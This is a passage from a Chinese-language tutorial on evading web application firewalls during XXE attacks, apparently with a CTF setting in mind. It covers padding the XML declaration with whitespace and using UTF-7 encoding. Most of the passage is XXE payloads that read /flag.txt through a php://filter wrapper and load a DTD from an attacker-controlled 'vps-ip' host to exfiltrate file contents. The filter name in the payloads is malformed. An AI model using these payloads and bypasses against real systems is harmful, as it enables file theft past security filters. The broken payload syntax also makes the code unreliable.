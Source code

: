 ​	3.2、掌握XML内部结构



## 四、绕过防护

### 1、使用空格

```xml
<!-- 原因 -->
通常XXE漏洞存在于XML文档开头，部分WAF会使用正则表达式检测XML开头的字符串，但是XML格式在设置标签属性格式时，允许使用任意数量的空格，从而实现绕过此类型防护
```

```xml
<!-- 原文 -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
<!ENTITY % remote SYSTEM "http://vps-ip/test.dtd">
%remote;
%dtd;
%xxe;
]>
```

```xml
<!-- 绕过 -->
<?xml              



                                                                                   
version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
<!ENTITY % remote SYSTEM "http://vps-ip/test.dtd">
%remote;
%dtd;
%xxe;
]>

```

### 2、使用UTF-7

```xml
<!-- 原因 -->
大部分WAF会对关键词过滤，可以使用UTF-7绕过此类型防护
```

```xml
<!-- 原文 -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
<!ENTITY % remote SYSTEM "http://vps-ip/test.dtd">
%remote;
%dtd;
%xxe;
]>
```
